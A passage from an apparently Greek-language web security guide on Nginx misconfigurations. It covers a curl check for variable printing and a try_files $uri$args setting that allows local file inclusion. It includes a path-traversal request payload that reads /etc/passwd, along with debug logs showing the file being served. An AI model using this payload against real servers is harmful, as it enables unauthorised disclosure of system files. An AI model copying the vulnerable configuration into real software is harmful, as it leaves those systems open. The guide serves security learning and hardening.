 Για να **ανιχνευθεί αυτή η κακή ρύθμιση**, μπορεί να εκτελεστεί η παρακάτω εντολή, η οποία περιλαμβάνει την ρύθμιση ενός referer header για τη δοκιμή εκτύπωσης μεταβλητών:
```bash
$ curl -H ‘Referer: bar’ http://localhost/foo$http_referer | grep ‘foobar’
```
Σαρώσεις για αυτή τη λανθασμένη ρύθμιση σε συστήματα αποκάλυψαν πολλές περιπτώσεις όπου οι μεταβλητές Nginx θα μπορούσαν να εκτυπωθούν από έναν χρήστη. Ωστόσο, η μείωση του αριθμού των ευάλωτων περιπτώσεων υποδηλώνει ότι οι προσπάθειες για την επιδιόρθωση αυτού του ζητήματος έχουν υπάρξει κάπως επιτυχείς.

### Χρησιμοποιώντας try_files με τις μεταβλητές $URI$ARGS

Η παρακάτω λανθασμένη ρύθμιση του Nginx μπορεί να οδηγήσει σε ευπάθεια LFI:
```
location / {
try_files $uri$args $uri$args/ /index.html;
}
```
Στη διαμόρφωσή μας έχουμε την οδηγία `try_files` η οποία χρησιμοποιείται για να ελέγξει την ύπαρξη αρχείων με καθορισμένη σειρά. Ο Nginx θα εξυπηρετήσει το πρώτο που θα βρει. Η βασική σύνταξη της οδηγίας `try_files` είναι η εξής:
```
try_files file1 file2 ... fileN fallback;
```
Nginx θα ελέγξει την ύπαρξη κάθε αρχείου με τη συγκεκριμένη σειρά. Αν ένα αρχείο υπάρχει, θα σερβιριστεί αμέσως. Αν κανένα από τα καθορισμένα αρχεία δεν υπάρχει, το αίτημα θα περάσει στην εναλλακτική επιλογή, η οποία μπορεί να είναι μια άλλη URI ή μια συγκεκριμένη σελίδα σφάλματος.

Ωστόσο, όταν χρησιμοποιούνται οι μεταβλητές `$uri$args` σε αυτή τη δήλωση, το Nginx θα προσπαθήσει να βρει ένα αρχείο που να ταιριάζει με την URI του αιτήματος σε συνδυασμό με οποιαδήποτε επιχειρήματα συμβολοσειράς ερωτήματος. Επομένως, μπορούμε να εκμεταλλευτούμε αυτή τη ρύθμιση:
```
http {
server {
root /var/www/html/public;

location / {
try_files $uri$args $uri$args/ /index.html;
}
}
}
```
Με το παρακάτω payload:
```
GET /?../../../../../../../../etc/passwd HTTP/1.1
Host: example.com
```
Χρησιμοποιώντας το payload μας, θα ξεφύγουμε από τον ριζικό κατάλογο (ο οποίος ορίζεται στη ρύθμιση Nginx) και θα φορτώσουμε το αρχείο `/etc/passwd`. Στα αρχεία καταγραφής αποσφαλμάτωσης μπορούμε να παρατηρήσουμε πώς ο Nginx προσπαθεί τα αρχεία:
```
...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 trying to use file: "/../../../../../../../../etc/passwd" "/var/www/html/public/../../../../../../../../etc/passwd"
2025/07/11 15:49:16 [debug] 79694#79694: *4 try file uri: "/../../../../../../../../etc/passwd"

...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 http filename: "/var/www/html/public/../../../../../../../../etc/passwd"

...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 HTTP/1.1 200 OK

```